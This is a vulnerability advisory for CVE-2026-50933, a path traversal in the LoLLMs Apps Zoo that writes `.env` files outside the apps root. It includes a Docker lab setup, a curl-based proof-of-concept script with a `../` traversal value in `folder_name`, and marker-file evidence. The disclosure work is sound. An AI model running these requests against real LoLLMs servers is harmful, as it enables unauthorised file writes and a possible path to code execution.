



# CVE-2026-50933 — Path Traversal in LoLLMs Apps Zoo `update_app_env` (arbitrary-location `.env` write)

[CVE ID]
CVE-2026-50933

[PRODUCT]
parisneo/lollms — LoLLMs (Lord of Large Language and Multimodal Systems), a Python/FastAPI LLM server and web UI whose "Apps Zoo" subsystem installs and manages third-party sub-applications.

[VERSION]
commit `0f2fd7e8a89a8bf9715b2c41c64181759a810538` (parisneo/lollms). The CVE record names `lollms-webui @ 8a753f48d73bea1da120b863fc90daf1bfb96973` — the repository's earlier name; the vulnerable component `backend/routers/zoos/apps_zoo.py` was reproduced from the pinned `parisneo/lollms` commit used by the case runbook.

[PROBLEM TYPE]
Directory Traversal (`CWE-22`) leading to arbitrary-location file write (`CWE-73`)

## Description

The Apps Zoo admin API persists the client-supplied `AppInstallRequest.folder_name` verbatim into `DBApp.folder_name` (install endpoint `POST /api/apps_zoo/install`, task worker creates `DBApp(..., folder_name=folder_name, ...)`) without rejecting `..` segments or absolute paths. Later, `get_installed_app_path()` builds the app directory with a raw `pathlib` join — `return APPS_ROOT_PATH / app.folder_name` — with no `resolve()`/containment check, so a `folder_name` containing `..` escapes the intended apps root (`/app/data/apps` inside the container). The sink `update_app_env` (`PUT /api/apps_zoo/installed/{app_id}/env`) then computes `env_file = app_path / ".env"` and executes `open(env_file, 'w', encoding='utf-8')`, writing the fully attacker-controlled request-body field `payload.content` to that out-of-root location. The result is an arbitrary-path file write restricted to the fixed filename `.env` (the sibling sink `PUT /api/apps_zoo/installed/{app_id}/config` writes `config.yaml` through the same unvalidated join). All routes on `apps_zoo_router` are gated by `Depends(get_current_admin_user)`, so exploitation requires administrator credentials.

Vulnerable code:
- Sink: <https://github.com/ParisNeo/lollms/blob/0f2fd7e8a89a8bf9715b2c41c64181759a810538/backend/routers/zoos/apps_zoo.py#L516-L522>
- Unvalidated join: <https://github.com/ParisNeo/lollms/blob/0f2fd7e8a89a8bf9715b2c41c64181759a810538/backend/routers/extensions/app_utils.py#L115-L127>
- Taint entry (install accepts `folder_name`): <https://github.com/ParisNeo/lollms/blob/0f2fd7e8a89a8bf9715b2c41c64181759a810538/backend/routers/zoos/apps_zoo.py#L292-L300>

## Proof of Concept

### Victim setup

Clone at the pinned commit and boot the official HTTP service non-interactively (minimal Dockerfile per the case runbook: `python:3.11-slim` + `requirements.txt`, pre-initialized DB, `python -u main.py` on port 9642):

```bash
git clone https://github.com/ParisNeo/lollms.git && cd lollms
git checkout 0f2fd7e8a89a8bf9715b2c41c64181759a810538

cat > Dockerfile.scdd <<'DOCKER'
FROM python:3.11-slim
WORKDIR /app
COPY . /app
RUN apt-get update \
  && apt-get install -y --no-install-recommends git \
  && rm -rf /var/lib/apt/lists/*
RUN pip install --no-cache-dir --upgrade pip \
  && pip install --no-cache-dir -r requirements.txt
ENV SERVER_HOST=0.0.0.0
ENV SERVER_PORT=9642
ENV SERVER_WORKERS=1
EXPOSE 9642
# First run may invoke an interactive setup wizard; pre-initialize the DB schema
# and create the special `lollms` user, then start HTTP non-interactively.
CMD ["bash", "-lc", "set -euo pipefail; mkdir -p /app/data/apps_zoo; python - <<'PY'\nimport secrets\nfrom backend.config import APP_DB_URL\nfrom backend.db import session as db_session_module\nfrom backend.db.base import Base\nfrom backend.db.models.user import User\nfrom backend.security import get_password_hash\n\ndb_session_module.init_database(APP_DB_URL)\nBase.metadata.create_all(bind=db_session_module.engine)\n\ndb = db_session_module.SessionLocal()\ntry:\n    if not db.query(User).filter(User.username == 'lollms').first():\n        dummy = secrets.token_hex(32)\n        db.add(User(\n            username='lollms',\n            hashed_password=get_password_hash(dummy[:72]),\n            is_admin=False,\n            is_active=True,\n            status='active',\n            first_login_done=True,\n        ))\n        db.commit()\nfinally:\n    db.close()\nPY\nexec python -u main.py"]
DOCKER

docker build -t scdd-lollms:0f2fd7e -f Dockerfile.scdd .
docker run -d --name scdd_50933_lollms -p 127.0.0.1:39642:9642 scdd-lollms:0f2fd7e
# wait for readiness: curl http://127.0.0.1:39642/ returns the LoLLMs UI
```

Then create a throwaway admin account (env prep only, inside the container — recorded run printed `SCDD_ADMIN_OK scdd_admin`):

```bash
docker exec -i -e ADMIN_USER=scdd_admin -e ADMIN_PASS='ScddPassw0rd!' scdd_50933_lollms python3 - <<'PY'
import os
from backend.config import APP_DB_URL
from backend.db import session as db_session_module
from backend.db.models.user import User
from backend.security import get_password_hash

ADMIN_USER = os.environ.get("ADMIN_USER", "scdd_admin")
ADMIN_PASS = os.environ.get("ADMIN_PASS", "ScddPassw0rd!")

db_session_module.init_database(APP_DB_URL)
db = db_session_module.SessionLocal()
try:
    u = db.query(User).filter(User.username == ADMIN_USER).first()
    if not u:
        u = User(
            username=ADMIN_USER,
            hashed_password=get_password_hash(ADMIN_PASS[:72]),
            is_admin=True,
            is_active=True,
            status="active",
            first_login_done=True,
        )
        db.add(u); db.commit()
    else:
        u.hashed_password = get_password_hash(ADMIN_PASS[:72])
        u.is_admin = True
        u.is_active = True
        u.status = getattr(u, "status", "active") or "active"
        u.first_login_done = True
        db.commit()
finally:
    db.close()
print("SCDD_ADMIN_OK")
PY
```



### Attack steps

All requests are sent from `127.0.0.1` with the admin Bearer token.

```bash
BASE='http://127.0.0.1:39642'
# 1) login
TOKEN="$(curl -sS -X POST "$BASE/api/auth/token" -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-urlencode 'username=scdd_admin' --data-urlencode 'password=ScddPassw0rd!' \
  | python3 -c 'import json,sys; print(json.load(sys.stdin)["access_token"])')"
AUTH="Authorization: Bearer $TOKEN"

# 2) make sure the apps-zoo repository is pulled and the target app exists
#    (on a fresh install /available is empty until the repository is pulled)
REPO_ID="$(curl -sS -H "$AUTH" "$BASE/api/apps_zoo/repositories" \
  | python3 -c 'import json,sys; print(json.load(sys.stdin)[0]["id"])')"
AVAILABLE_TOTAL="$(curl -sS -H "$AUTH" "$BASE/api/apps_zoo/available?page=1&page_size=200" \
  | python3 -c 'import json,sys; print(int((json.load(sys.stdin) or {}).get("total") or 0))')"
if [ "$AVAILABLE_TOTAL" -eq 0 ]; then
  PULL_TASK_ID="$(curl -sS -X POST -H "$AUTH" "$BASE/api/apps_zoo/repositories/${REPO_ID}/pull" \
    | python3 -c 'import json,sys; print(json.load(sys.stdin)["id"])')"
  while :; do
    PST="$(curl -sS -H "$AUTH" "$BASE/api/tasks/${PULL_TASK_ID}" \
      | python3 -c 'import json,sys; print((json.load(sys.stdin) or {}).get("status",""))')"
    case "$PST" in completed) break ;; failed|cancelled) exit 1 ;; esac
    sleep 2
  done
fi
#    (repo "Official LoLLMs Apps Zoo", app folder "Onto" resolved via /api/apps_zoo/repositories + /available)
PORT=9601
INSTALL_JSON='{"repository":"Official LoLLMs Apps Zoo","folder_name":"../Official LoLLMs Apps Zoo/Onto","port":9601,"autostart":false}'
INSTALL_RESP="$(curl -sS -X POST -H "$AUTH" -H 'Content-Type: application/json' --data "$INSTALL_JSON" "$BASE/api/apps_zoo/install")"
# -> {"id":"add2f4c0-...","status":"pending",...}  (async task: install is NOT complete yet)
TASK_ID="$(printf '%s' "$INSTALL_RESP" | python3 -c 'import json,sys; print(json.load(sys.stdin)["id"])')"

# poll the task until it completes (~40 s in the recorded run)
# -> {"status":"completed",...,"result":{"success":true,"message":"Installation successful."}}
while :; do
  ST="$(curl -sS -H "$AUTH" "$BASE/api/tasks/${TASK_ID}" \
    | python3 -c 'import json,sys; print((json.load(sys.stdin) or {}).get("status",""))')"
  case "$ST" in completed) break ;; failed|cancelled) exit 1 ;; esac
  sleep 2
done

# resolve the generated app id by install port (a fresh run yields a new id)
APP_ID="$(curl -sS -H "$AUTH" "$BASE/api/apps_zoo/installed" \
  | PORT="$PORT" python3 -c 'import json,os,sys; port=int(os.environ["PORT"]); print(next(str(a["id"]) for a in json.load(sys.stdin) if isinstance(a,dict) and a.get("port")==port and a.get("id")))')"
# recorded run: APP_ID=7175bd6f-efa3-4f62-8ddd-d2e4bbf56829

# 3) trigger: write attacker content to the traversed path
curl -sS -X PUT -H "$AUTH" -H 'Content-Type: application/json' \
  --data '{"content":"CVE50933_MARKER_1790573785\n"}' \
  "$BASE/api/apps_zoo/installed/$APP_ID/env"
```



### Evidence

HTTP read-back through the same API plus in-container verification (full transcript in `evidence/transcript.txt`, excerpts in `evidence/key_evidence.txt`):

```
$ curl -sS -H "$AUTH" "$BASE/api/apps_zoo/installed/$APP_ID/env"
CVE50933_MARKER_1790573785
$ grep -nF CVE50933_MARKER_1790573785 lollms_env_readback.txt
1:CVE50933_MARKER_1790573785

$ docker exec -i -e APP_ID=... scdd_50933_lollms python3 -      # DB row keeps the poisoned value
DBApp.folder_name = ../Official LoLLMs Apps Zoo/Onto
$ docker exec -i -e ENV_FILE=... scdd_50933_lollms python3 -    # containment check
APPS_ROOT_PATH                 = /app/data/apps
written env_file               = /app/data/Official LoLLMs Apps Zoo/Onto/.env
env_file inside APPS_ROOT_PATH?= False
$ docker exec ... bash -lc 'ls -la "$ENV_FILE"; cat "$ENV_FILE"; grep -nF "$MARKER" "$ENV_FILE"'
-rw-r--r-- 1 root root 27 Sep 28 05:36 /app/data/Official LoLLMs Apps Zoo/Onto/.env
CVE50933_MARKER_1790573785
1:CVE50933_MARKER_1790573785
```



## Impact

A remote attacker with administrator credentials (all `apps_zoo_router` endpoints enforce `Depends(get_current_admin_user)`) can write a file at an arbitrary filesystem path reachable by the service account, subject to two constraints: the filename is fixed (`.env` via `PUT .../env`; `config.yaml` via the sibling `PUT .../config` sink, not demonstrated here) and the file content is fully attacker-controlled (request body, overwrite semantics, parent directory must already exist for the write to succeed). Demonstrated by writing a marker `.env` to `/app/data/Official LoLLMs Apps Zoo/Onto/.env`, outside the intended `APPS_ROOT_PATH` (`/app/data/apps`). Plausible downstream risk (conditional, not demonstrated here): if some service later loads `.env` / `config.yaml` from the written location — e.g., a restarted LoLLMs sub-application or another process reading that path — the planted configuration could be parsed or executed, which is a plausible route toward code execution within the service's privileges. The PoC proves only the constrained out-of-root file write; the write primitive itself is confined to the fixed filenames noted above.

## Occurrences

- `backend/routers/zoos/apps_zoo.py:516-522` — sink `update_app_env`: `env_file = app_path / ".env"` then `open(env_file, 'w')` + `f.write(payload.content)`
- `backend/routers/zoos/apps_zoo.py:483-496` — sibling sink `update_app_config`: same join, writes `config.yaml`
- `backend/routers/extensions/app_utils.py:115-127` — `get_installed_app_path`: `return APPS_ROOT_PATH / app.folder_name` (no containment check; `MCPS_ROOT_PATH / app.folder_name` variants at L120-125)
- `backend/routers/zoos/apps_zoo.py:292-300` — taint entry `install_zoo_app(request: AppInstallRequest)`: forwards `request.folder_name` unvalidated
- `backend/routers/extensions/app_utils.py:909` — persistence: `DBApp(..., folder_name=folder_name, ...)`
- `backend/routers/zoos/apps_zoo.py:39-42` — auth gate: router-level `dependencies=[Depends(get_current_admin_user)]`

## References

- [CVE-2026-50933](https://www.cve.org/CVERecord?id=CVE-2026-50933)
- [ParisNeo/lollms repository](https://github.com/ParisNeo/lollms)
- Vulnerable file at pinned commit: <https://github.com/ParisNeo/lollms/blob/0f2fd7e8a89a8bf9715b2c41c64181759a810538/backend/routers/zoos/apps_zoo.py>
